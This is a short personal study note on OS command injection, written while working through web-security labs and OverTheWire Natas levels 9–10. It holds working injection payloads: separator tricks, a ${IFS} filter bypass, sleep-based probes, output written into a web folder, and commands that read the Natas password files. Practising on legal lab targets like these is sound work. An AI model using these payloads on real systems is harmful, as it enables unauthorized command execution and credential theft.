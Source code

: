 # OS Injection

## We Know

Using `; & &&` with URL encoding

`${IFS}` to bypass whitespace filter and curly brace expansion

### Lab 2

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`||` is conditional if right but why use it at the end of the command as well?

Well `||sleep 10;` works but we get a 500 Server Error

`|sleep 10|` too

`;sleep 10` doesn't work so `|` is the only operator that breaks the flow

`&` and `&&` doesn't work at all so ggs

### Lab 3

`||whoami>/var/www/images/hi.txt||`

`/image?filename=hi.txt`

The writable folder, we found cus of these boys - how else would we know?

<div align="left"><figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure></div>

{% embed url="https://github.com/payloadbox/command-injection-payload-list" %}

## Natas

### 9 & 10

<div align="left"><figure><img src="../../.gitbook/assets/image (83).png" alt="" width="417"><figcaption></figcaption></figure></div>

In prev challenge we executed multiple commands in the same line using ;

`; cat /etc/natas_webpass/natas10`

but as we can see the ; is blocked here so what do.

the other standard ways of exec multiple commands include &&, || and those are blocked too.

```
.* /etc/natas_webpass/natas11
```

so `grep -i .* /etc/natas_webpass/natas11 dictionary.txt` is the final output

I've never seen this before nor does this show up in any forums so how legit is this?

This .\* is specific for grep to read the contents of a file.
